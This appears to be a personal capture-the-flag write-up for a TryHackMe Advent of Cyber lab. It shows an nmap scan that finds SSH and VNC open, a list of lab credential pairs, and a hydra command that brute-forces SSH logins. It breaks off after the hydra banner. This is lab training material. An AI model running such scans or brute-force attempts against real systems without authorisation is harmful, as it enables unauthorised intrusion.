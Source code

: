### nmap scan
```sh 
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day5$ sudo nmap -A -p- -oN nmap_results.txt day5.thm
[sudo] password for sami: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 00:34 EET
Nmap scan report for day5.thm (10.10.79.200)
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 78ebbe14ee9ec002beda79d36ded68a2 (RSA)
|   256 43c5a44f78f5397e93edee89cd5da874 (ECDSA)
|_  256 00dd7b5c7c75a3dc5bed80aa8909b0cc (ED25519)
5900/tcp open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    VNC Authentication (2)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/6%OT=22%CT=1%CU=40235%PV=Y%DS=2%DC=T%G=Y%TM=638E723
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   54.95 ms 10.11.0.1
2   55.17 ms day5.thm (10.10.79.200)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.07 seconds
```
#### Notes
- `ssh` is open on port `22`
- `vnc` is open on port `5900`
### SSH login with the obtained creds 
```txt
ubuntu:S@nta2022
santa:santa101
santahr:santa25
santaciso:santa30
santatech:santa200
santaaccounts:santa400
```
```sh
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day5$ hydra -u -V -f -L username.txt -P password.txt ssh://day5.thm 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

```